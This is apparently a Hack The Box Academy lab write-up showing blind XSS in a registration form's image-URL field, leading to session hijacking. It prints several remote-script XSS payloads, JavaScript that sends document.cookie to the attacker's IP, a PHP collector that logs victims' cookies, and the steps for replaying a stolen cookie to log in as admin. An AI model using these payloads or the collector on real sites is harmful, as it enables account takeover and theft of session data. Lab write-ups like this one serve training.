







# Hack The Box Academy - Session Hijacking via Blind XSS | Write-up

> **Platform:** Hack The Box Academy &nbsp;•&nbsp; **Category:** Blind Cross-Site Scripting / Session Hijacking
>
> **Author:** Jithin Jelson

---

This is a session hijacking challenge, and the objective of this lab is to use blind XSS to retrieve cookie data from the victim's browser so that we can gain logged in access without knowing their credentials. With the ability to execute JavaScript on the victim's machine, we can collect their data and send it to our server to hijack their logged in session.

- **Target IP:** `10.129.69.119`
- **My IP:** `10.10.14.88`

---

## Reconnaissance

Normally we would perform an Nmap scan to begin the lab, but we have already been given the page we are to visit to perform our attack, which is `http://10.129.69.119/hijacking/`.


*Figure 1 - The registration page we're given to attack*

We can first test this site using dummy details.


*Figure 2 - Filling in dummy registration details*

---

## Confirming Blind XSS

We can confirm that the attack we have to carry out is a blind XSS, as the page confirms that the page won't be shown to us or processed by us, and it is for an admin to review in a panel we don't have access to.


*Figure 3 - The page confirming an admin will review our submission*

This confirms that we will not see how our input will be handled in the browser, since it only appears for the admin in a certain admin panel. Normally we could test each field until we get an alert box, but since we can't see one here, we have to think differently. Our input gets stored somewhere and only shows up later when the admin logs into a separate private admin panel, so even if our payload executes, we will never see an alert box pop up. Since we can't see an alert box, we need our payload to do something we can observe from our own machine instead.


*Figure 4 - Reference example from the module showing the same blind XSS pattern*

In HTML we can write JavaScript using `<script>` tags. We can also include a remote script by providing its URL as follows:

```html
<script src="http://OUR_IP/script.js"></script>
```

If we get a request for `/username`, we can tell that the username field is vulnerable. PayloadsAllTheThings (a GitHub repo with a collection of blind XSS payloads) can help us find a payload that loads a remote script, and we can see which field sends us a request.

---

## Finding the Vulnerable Field

Now let's set up a listener with Netcat to help us find the correct payload to use and the vulnerable input field. Since we know the password field is stored as a hashed value, there's a good chance that won't be it.

Using the view source option, we can locate all the field names.


*Figure 5 - Locating the field names via view source*

This is our initial payload, sent across all the fields (note we don't need the field names, but it's good practice):

```
<script src="http://10.10.14.88/fullname"></script>
<script src="http://10.10.14.88/username"></script>
password
jj@gmail.com><script src="http://10.10.14.88/email"></script>
<script src="http://10.10.14.88/imgurl"></script>
```

We can also start our listener.


*Figure 6 - Starting the Netcat listener on port 8080*

It seems like the email format is wrong, which eliminates another field that's potentially not vulnerable.


*Figure 7 - Invalid email error, ruling out the email field*

We waited a while but got no response, so using PayloadsAllTheThings, we tried different payloads to see which one would work:

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Before sending the payload we need to start a listener using Netcat or PHP, as shown earlier. Then we can send something like:

```
<script src=http://OUR_IP/fullname></script>   #goes in the full name field
<script src=http://OUR_IP/username></script>   #goes in the username field
...SNIP...
```

Once we submit, we wait a few minutes to see if anything calls our server, then move on to the next payload, and so on. Once we have a successful XSS payload, we've identified a vulnerable input field and can perform the XSS exploitation and the session hijacking attack.

After a few attempts we got a response which confirmed the vulnerable point was the imgurl field, and the payload was:

```html
"><script src="http://10.10.14.88:8080/imgurl"></script>
```


*Figure 8 - Confirming the imgurl field is vulnerable*

These were all the payloads I had tested:

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
```

---

## Stealing the Session Cookie

Now that we have the vulnerable point and a working payload, we can inject a script to steal cookie data.

There are two ways we can do this, using PHP or Netcat. For this demonstration I used a PHP script, since Netcat just dumps the raw HTTP request to the terminal, it doesn't parse anything or run multiple times automatically. So if multiple cookie bearing requests come in, you'd need to manually catch each one and might miss earlier ones while reading the current one. A PHP script gets hosted properly, can run continuously, parses out the cookie value from each incoming request, and can write each one to a log file, so nothing gets lost and you can review them all afterward.

There are multiple JS payloads we can use to grab the session cookie and send it to us:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
```

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

Either works. Since this is an image URL vulnerability, a suitable script can be:

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

We save this as `script.js`.

Now we can create a PHP server that splits each cookie onto a new line, so that even if multiple victims trigger the XSS exploit, we get all of their cookies in one file:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

We save this as `index.php`, then start our PHP listener.


*Figure 9 - Setting up script.js, index.php, and starting the PHP server*

We use the following payload in the vulnerable field:

```html
"><script src="http://10.10.14.88:8080/script.js"></script>
```

We can see the server picks up the request for `script.js`. We ran into an issue where `index.php` didn't run, this was when I realised it was the wrong directory, so I changed it and ran it again.


*Figure 10 - Running into the wrong directory issue with index.php*

After fixing the directory, `script.js` was served correctly and the cookie request came through.


*Figure 11 - script.js working and the cookie value being captured*

Our PHP script was a success too.


*Figure 12 - cookies.txt with the victim's cookie saved*

---

## Hijacking the Session

Now we can go to the login page and use Shift+F9 to open the storage tab in dev tools, then use the `+` button on the top right to add our new cookie, where the name is the part before the `=` and the value is the part after the `=` from our stolen cookie. Once the cookie is set, we can refresh the page and get access as the victim.


*Figure 13 - Adding the stolen cookie into the browser's storage*

And we got our flag.


*Figure 14 - Logged in as admin and retrieving the flag*

---

<sub>Write-up by <b>Jithin Jelson</b></sub>
